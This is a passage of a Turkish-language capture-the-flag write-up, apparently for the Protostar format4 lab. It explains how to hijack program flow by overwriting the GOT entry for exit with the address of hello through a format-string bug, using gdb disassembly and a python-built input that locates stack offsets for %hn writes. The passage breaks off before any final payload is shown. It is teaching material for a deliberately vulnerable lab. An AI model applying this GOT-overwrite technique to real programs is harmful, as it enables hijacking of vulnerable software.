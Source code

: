 Bu aşamada işler iyice karışıyor ve bizden program akışını değiştirip vuln fonksiyonunaki zafiyetten faydalanarak hello fonksiyonuna atlayıp başarı mesajını ekrana yazdırmak. Peki bunu yapmak için nasıl bir yol izleyeceğiz? Return adresini ezme gibi bri durumumuz yok çünkü vuln fonksiyonu geri dönmeden exit ile çıkış yapıyor. Eğer biz exit fonksiyonunun adresini hello fonksiyonunun adresi ile değiştirebilirsek program exit fonksiyonunu çalıştırmak istesiğinde gidip bizim hello fonksiyonuna zıplar ve onu çalıştırır. Exit fonksiyonunun adresini değiştrimek için anlamamız gereken bir konu var, o da PLT(process linkage table) ve GOT(global offset table) tabloları. Bunlar ne olaki diye soruyorsanız burada ayrıntılı bir şekilde anlatmayacağım ancak şu iki kaynaktan güzel bir şekilde öğrenebilirsiniz. [Video](https://www.youtube.com/watch?v=kUk5pw4w0h4) ve [Blog](https://programmersought.com/article/20004546156/) <br> Bunları izlediğinizi/okuduğunuzu varsayarak devam ediyorum, şu fonksiyonların adreslerini gdb ile bulalım.
```bash
hello nun adresini bulma
------------------------
(gdb) x hello
0x80484b4 <hello>:	0x83e58955
```
Hellonun adresini bulduk, burada sıra exit fonksiyonuna geldi.
```bash
(gdb) disas vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:	push   %ebp
0x080484d3 <vuln+1>:	mov    %esp,%ebp
0x080484d5 <vuln+3>:	sub    $0x218,%esp
0x080484db <vuln+9>:	mov    0x8049730,%eax
0x080484e0 <vuln+14>:	mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:	movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:	lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:	mov    %eax,(%esp)
0x080484f5 <vuln+35>:	call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:	lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:	mov    %eax,(%esp)
0x08048503 <vuln+49>:	call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:	movl   $0x1,(%esp)
0x0804850f <vuln+61>:	call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) disas 0x80483ec
Dump of assembler code for function exit@plt:
0x080483ec <exit@plt+0>:	jmp    *0x8049724
0x080483f2 <exit@plt+6>:	push   $0x30
0x080483f7 <exit@plt+11>:	jmp    0x804837c
End of assembler dump.
```
Vuln fonksiyonunun içeriğine bakıp son satırdaki exit fonksiyonuna bakalım. Dikkat ederseniz buradaki adres PLT tablosundan bir adres. Bahsettiğim kaynaklarda da görmüşsünüzdür ki PLT tablosu entrylerden oluşuyor. Yani ilk iki satırdan sonrası 3'er satır şeklinde entrylerden oluşuyor. Burada biz exit fonksiyonunu çağırırken plt'deki ilgili entrye gidip ilk satırından ilgili GOT table satırına jmp ile zıplıyor. Oradan da fonksiyonun libc'deki adres değerini alıp ona jmp ile zıplıyor. Burada kafanız karışmış olabilir. PLT ve GOT table yapısını başka bir yazıda anlatmayı düşünüyorum adım adım.<br><br>
Şimdi biz burada  `0x8049724` adresinin içeriğini değiştirmeye çalışacağız çünkü GOT tablosunda bu adreste exit fonksiyonunun adresi var. Yani `0x8049724` adresinin olduğu noktaya hellonun adresini yazmalıyız ki plt tablosunda ilgili entrynin ilk satırına geldiğinde içeriğini çalıştıracağı got table adresinde hello olsun. (Baya karışık anlattım :/ ) <br><br>
Biz bu adrese `0x80484b4 = 134513844` yazacağız ancak sayı çook büyük. Bunu yapmak için format stringlerdeki bri özellikten faydalanacağız. %n yerine %hn vererek 4 byte yerine 2 byte yazabilme gibi bir lüksümüz var :) Hedef adresin düşük anlamlı 2 byte'ına yazmak için 0x8049724 adresinden, diğer 2 byteına yazmak için de 0x8049726 adresinden başlamamız gerekir.
```bash
user@protostar:/tmp$ echo $(python -c 'print "\x26\x97\x04\x08" + "\x24\x97\x04\x08" + "%x "*10 ') | /opt/protostar/bin/format4
$�&�200 b7fd8420 bffff4f4 8049726 8049724 25207825 78252078 20782520 25207825 78252078
```
4 . sıraya ilk adresi ve 5. sıraya da ikinci adresi yazıyormuşuz.
```bash
```